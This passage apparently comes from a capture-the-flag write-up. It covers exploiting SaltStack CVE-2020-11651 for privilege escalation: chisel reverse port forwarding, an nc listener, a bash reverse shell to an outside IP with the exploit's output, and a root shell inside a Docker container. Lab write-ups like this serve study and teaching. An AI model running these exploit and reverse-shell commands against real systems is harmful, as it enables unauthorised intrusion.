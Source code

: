 *while testing this script find out that the script requires python salt module which is not installed in the box*
```python
(remote) tomcat@VirusBucket:/tmp$ python3 exploit.py 
Traceback (most recent call last):
  File "exploit.py", line 16, in <module>
    import salt
ModuleNotFoundError: No module named 'salt'
```
*so the script is not gonna work directly, First need to forward 4506 port in the local machine and install the salt module in my local machine.*

__Port forwarding__ with [chisel](https://github.com/jpillora/chisel/releases/download/v1.7.3/chisel_1.7.3_linux_amd64.gz)

# Privesc

* forwarding port 4506 to my local machine -
```bash
./chisel client 10.10.14.43:4242 R:4506:127.0.0.1:4506
```

* start server -
```bash
./chisel server -p 4242 --reverse
```

* open a new nc listener - 
```
nc -nvlp 4343
```

* install salt module in my local macjine and run the script - 
```bash
❯ python3 exploit.py --master 127.0.0.1 --exec 'bash -c "bash -i >& /dev/tcp/10.10.14.43/4343 0>&1"'
[!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.
[+] Checking salt-master (127.0.0.1:4506) status... ONLINE
[+] Checking if vulnerable to CVE-2020-11651... YES
[*] root key obtained: cydg/5uledxv14SGDpmBbyebuAbZMKJjPTU9oAaF9Xeq6IflytJmJl25GejBnE0w51cDAUhYghA=
[+] Attemping to execute bash -c "bash -i >& /dev/tcp/10.10.14.43/4343 0>&1" on 127.0.0.1
[+] Successfully scheduled job: 20201222115325271998
```

# Docker Escape

* so what i get is a root shell but inside a docker not in the box itself.
* there is a `todo.txt` file in the root dir - 
```bash
root@2d24bf61767c:~# cat todo.txt
cat todo.txt
- Add saltstack support to auto-spawn sandbox dockers through events.
- Integrate changes to tomcat and make the service open to public.
```
